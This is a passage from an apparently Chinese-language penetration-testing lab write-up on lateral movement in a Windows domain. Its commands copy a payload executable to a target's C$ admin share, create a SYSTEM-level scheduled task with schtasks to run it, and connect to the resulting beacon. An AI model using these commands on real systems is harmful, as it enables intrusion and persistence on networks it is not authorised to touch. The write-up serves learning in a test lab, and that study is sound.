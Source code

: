 ```
shell copy 2012.exe \\192.168.20.50\c$
```

![image-20230623153439336](assets/lFcnxo6vrP84MuB.png)

#### 4.3.1.3. 设定定时任务

这里就有点不一样了，我们对操作系统是不知道是什么版本的，那么最好的办法就是测试，这里我们使用上述说过的，确定了是2012，所以我们就不能使用at命令了。

可以看到我这里一直都是拒绝访问，可能我的域环境搭建的有问题，从上面也能看到，我一直在调整域环境，是能够实现的，只是我这个域环境可能一直没设置对，这里我们继续向下走流程吧。

```
shell schtasks /create /s 192.168.20.50 /ru system /tn 2012 /sc DAILY /tr c:\2012.exe /F
```

![image-20230623155052981](assets/rIl6GSKtkWiuHFv.png)

#### 4.3.1.4. 查看上线情况

这里我有点强行上线了，其实也能看出来，域环境中，有些情况下还是比较难实现上线的。

```
connect 192.168.20.50 3333
```

![image-20230623155229094](assets/W5meqVXGBfzjbSc.png)
